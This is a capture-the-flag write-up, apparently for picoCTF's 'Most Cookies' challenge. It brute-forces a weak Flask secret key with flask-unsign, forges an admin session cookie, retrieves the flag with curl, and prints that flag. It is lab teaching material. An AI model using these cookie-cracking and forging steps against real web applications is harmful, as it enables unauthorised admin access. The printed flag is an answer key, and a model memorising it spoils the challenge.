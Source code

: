 ### Most Cookies Challange 177

reproduct

```python
#server.py:6-7
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
`secret_key` will random from `cookie_names`. let's bruteforce secret key with list cookiename

so, [flask-usign](https://pypi.org/project/flask-unsign/), i will using it to modify payload of `jwt`

![cookie](image.png)

got auth, try to decode it using `flask-usign`

```bash
flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aAiknA.E7xiS8JgWPiOLpJC3aVKScWdyrs"
{'very_auth': 'blank'}
```

Unsigning (Brute Forcing Secret Keys)

```bash
flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aAiknA.E7xiS8JgWPiOLpJC3aVKScWdyrs -w cookie.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```
we can know `gingersnap` is scret key, let resign a new cookie with `very_auth`is `admin`

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk
```

try curl

```bash
curl -b "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk" http://mercury.picoctf.net:6259/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/display">/display</a>.  If not click the link.
```

It's redirect to `/display`, let follow this

```bash
curl -b "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk" http://mercury.picoctf.net:6259/display
<!DOCTYPE html>
<html lang="en">
.....

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
        </div>
....
</html>
```

got flag
#### Reference

[paradoxis-flask-session-management](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

